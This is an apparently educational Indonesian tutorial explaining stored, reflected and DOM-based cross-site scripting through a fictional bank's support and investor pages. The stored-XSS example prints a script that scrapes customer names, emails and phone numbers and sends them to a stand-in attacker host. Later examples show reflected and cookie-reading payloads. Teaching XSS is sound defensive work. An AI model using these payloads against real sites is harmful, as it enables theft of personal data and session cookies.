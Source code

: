 # Web Exploitation

![web-ex](img/web-exploitation.jpg)

Web Exploitation adalah sebuah kegiatan melakukan serangan terhadap suatu website. Serangan tersebut memiliki tujuan yang bermacam-macam mulai dari untuk mencuri data berharga, mengekploitasi resource dari web itu, sampai dengan melakukan testing keamanan suatu sistem. Ada bermacam-macam teknik yang bisa dilakukan untuk melakukan serangan terhadap suatu website.

## Cross-Site Scripting (XSS)
Serangan Cross-Site Scripting (XSS) dilakukan berdasarkan fakta bahwa suatu aplikasi web akan mengeksekusi script di browser dari user.

Serangan XSS sendiri memiliki beberapa kategori, dengan tiga kategori paling umum adalah :
- Stored (Kode disimpan di database sebelum dieksekusi)
- Reflected (Kode tidak disimpan di database, tetapi direfleksikan oleh server)
- DOM-based (Kode disimpan dan dieksekusi di browser)

### Stored XSS
Stored XSS mungkin adalah serangan XSS yang paling umum. Serangan ini cukup menarik karena biasanya merupakan XSS yang paling mudah dilacak, tetapi terkadang bisa menjadi salah satu yang paling berbahaya karena seringkali bisa memengaruhi banyak user.

![stored-xss](img/stored-xss.png)
*Salah satu contoh langkah-langkah serangan Stored-XSS*

Objek yang disimpan ke database bisa dilihat banyak user, di beberapa kasus semua user bisa terkena serangan ini jika objek global yang terinfeksi.

#### Sedikit contoh :
Ada suatu perusahaan yang memiliki website. Website tersebut menyediakan layanan keluhan pelanggan. Ada suatu pelanggan yang ingin membuat keluhan dengan isi seperti berikut :

```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Karena sang pelanggan ingin menegaskan suatu kalimat dan tidak ada fitur untuk bold di layanan keluhan tersebut, karena pelanggan tersebut seorang programmer maka sang pelanggan mencoba menggunakan tag `<strong></strong>` untuk mendapatkan font yang ter-bold. Sehingga pesannya menjadi :
```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
<strong>Please improve your web application.</strong>
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Lalu tak lama CS dari perusahaan tersebut menjawab dengan pesan :
```
Hello, I am Sam with MegaBank support.
I am sorry you are unhappy with our application.
We have a scheduled update next month on the fourth that should increase the speed
at which deposits are reflected in our app.
By the way, how did you bold that text?
—Sam from Customer Support, support.mega-bank.com
```
Dari sini dapat diketahui bahwa input dari fitur tersebut tidak memiliki filter untuk tag html. Maka sang pelanggan tadi dapat melancarkan serangan dengan pesan seperti ini :
```javascript
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.openCases');
/*
* Iterate through each DOM element containing the openCases class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
    customerData.push({
        firstName: customer.querySelector('.firstName').innerText,
        lastName: customer.querySelector('.lastName').innerText,
        email: customer.querySelector('.email').innerText,
        phone: customer.querySelector('.phone').innerText
    });
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
    const http = new XMLHttpRequest();
    http.open('POST', 'https://steal-your-data.com/data', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.send(JSON.stringify(customerData);
</script>
—Unhappy Customer, support.mega-bank.com
```
Di pesan tersebut sang pelanggan menyisipkan script untuk mendapat data pelanggan di aplikasi tersebut.

### Reflected XSS
Reflected XSS beroperasi dengan cara yang mirip dengan Stored XSS, tetapi script tidak disimpan ke suatu database. Reflected XSS berefek ke kode dari client di browser langsung tanpa bergantung pada server untuk menyampaikan pesan dengan script untuk dieksekusi.

![reflected-xss](img/reflected-xss.png)
*Salah satu contoh Reflected-XSS*

Karena tidak disimpan di database, Reflected XSS lebih susah dipahami daripada Stored XSS. Mari kita mulai dari contoh sederhana :

#### Contoh :
Kembali lagi ke perusahaan tadi. Website perusahaan tersebut menyediakan search bar dan kita bisa mencari solusi dari keluhan kita di search bar tersebut. Seorang pelanggan yang juga seorang programmer menggunakan fungsi tersebut. Lalu dia melihat URL dari website tersebut menjadi `support.mega-bank.com/search?query=open+savings+account`.

Lalu ia mencoba mengganti parameter query di URL tersebut menjadi `support.mega-bank.com/search?query=open+check‐
ing+account` dan hasil dari pencarian tersebut berisi solusi yang berhubungan dengan open checking account.

Seperti pelanggan sebelumnya, pelanggan ini mencoba agar input yang ia masukkan ter-bold, maka ia menggunakan URL `support.mega-bank.com/search?query=open+<strong>checking</strong>
+account` dan yang mengejutkan hasil di halaman tersebut ikut ter-bold.

Sekarang pelanggan tersebut bisa menyisipkan script ke URL tersebut seperti `support.mega-bank.com/search?query=open+<script>alert(test);</
script>checking+account` dan akan mengeluarkan alert di halaman hasil pencarian.

Script tersebut pastinya tidak disimpan di server dan server akan membaca dan mengembalikan script itu ke client. Inilah yang disebut Reflected-XSS. Contoh tersebut membutuhkan URL sehingga hacker mudah untuk membagikannya. Sebagian besar Reflected-XSS tidak mudah didistribusikan dan mungkin memerlukan end-user untuk melakukan tindakan tambahan seperti pasting Javascript ke suatu web form.

### DOM-Based XSS
DOM-Based XSS bisa direfleksikan atau disimpan. Serangan ini lebih sulit ditemukan dan dimanfaatkan daripada Stored-XSS maupun Reflected-XSS karena membutuhkan pengetahuan yang mendalam tentang DOM Browser dan Javascript.

![dom-based-xss](img/dom-based-xss.png)
*Salah satu contoh DOM-Based XSS*

Perbedaan XSS ini dengan yang lain adalah serangan ini tidak membutuhkan interaksi apapun dengan server. Karena hal ini maka dibutuhkan "source" dan "sink" di browser DOM. source adalah DOM objek yang bisa menyimpan text, sedangkan sink adalah DOM API yang bisa mengeksekusi script yang disimpan sebagai text.

#### Contoh :
Kembali lagi ke perusahaan tadi. Kali ini perusahaan ini menawarkan portal untuk investasi. Halaman `investors.mega-bank.com/listing` memiliki daftar dari berbagai instrumen investasi. Di halaman tersebut ada navigation menu untuk searching dan filtering dari instrumen ini.

Seorang pelanggan yang juga seorang programmer mencari investasi untuk minyak, maka URL berubah menjadi `nvestors.mega-bank.com/listing?
search=oil`. Lalu dia menfilter untuk negara AS, maka URL nya berubah menjadi `investors.mega-bank.com/listing#usa` dan halaman akan otomatis scroll ke bagian instrumen berbasis di AS.

Lalu pelanggan tersebut meneliti halaman dari website tersebut dengan inspect element dan menemukan script ini :
```javascript
/*
* Grab the hash object #<x> from the URL.
* Find all matches with the findNumberOfMatches() function,
* providing the hash value as an input.
*/
const hash = document.location.hash;
const funds = [];
const nMatches = findNumberOfMatches(funds, hash);
/*
* Write the number of matches found, plus append the hash
* value to the DOM to improve the user experience.
*/
document.write(nMatches + ' matches found for ' + hash);
```

Script ini memiliki arti bahwa halaman tersebut selalu menempelkan string di belakang tanda hash (#) ke DOM. Maka pelanggan tersebut bisa bermain-main dengan menggunakan URL ini `investors.mega-bank.com/listing#<script>alert(document.cookie);</script>` dimana akan menampilkan cookie dari session.

Di contoh ini pelanggan tidak memerlukan interaksi dengan server karena script Javascript yang melakukan searching maupun filtering.